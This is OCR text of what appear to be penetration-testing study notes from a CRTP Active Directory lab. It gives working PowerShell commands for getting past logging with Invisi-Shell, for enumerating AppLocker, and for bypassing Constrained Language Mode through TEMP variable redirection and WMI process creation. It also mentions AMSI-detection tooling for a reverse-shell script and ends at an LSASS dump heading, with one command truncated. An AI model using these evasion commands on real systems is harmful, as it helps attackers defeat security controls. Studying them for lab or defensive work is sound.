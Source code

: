 Info
The tool hooks the .NET assemblies
(System.Management.Automation.dll and System.Core.dll) to bypass
logging It uses a CLR Profiler API to perform the hook. "A common language runtime (CLR) profiler is a dynamic link
library (DLL) that consists of functions that receive messages from, and send messages to, the CLR by using the
profiling API. The profiler DLL is loaded by the CLR at run time."
How to use
# Using Invisi-Shell With admin privileges:
RunWithPathAsAdmin.bat
# With non-admin privileges:
RunWithRegistryNonAdmin.bat
# Type exit from the new PowerShell session to complete the clean-up.
CLM Bypass (ConstrainedLanguageMode)
because the madafaker AppLocker
# check the rules of App Locker
reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
A way to bypass:
# from the attacker machine:
# Load the script
# and after that run the command :
Invoke-Command -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local -ScriptBlock ${function:<'function name from the loaded scri
$CurrTemp = $env:temp
$CurrTmp = $env:tmp
$TEMPBypassPath = "C:\windows\temp"
$TMPBypassPath = "C:\windows\temp"
Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value "$TEMPBypassPath"
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value "$TMPBypassPath"
Invoke-WmiMethod -Class win32_process -Name create -ArgumentList "Powershell.exe"
sleep 5
#Set it back
CRTP 4
Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value $CurrTmp
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value $CurrTemp
AMSITrigger
https://github.com/RythmStick/AMSITrigger
# tool to identify the exact part of a script that is detected
# Simply provide path to the script file to scan it:
AmsiTrigger_x64.exe -i C:\AD\Tools\Invoke-PowerShellTcp_Detected.ps1
App Locker
# check if Applocker is configured on
reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2
LSASS DUMP
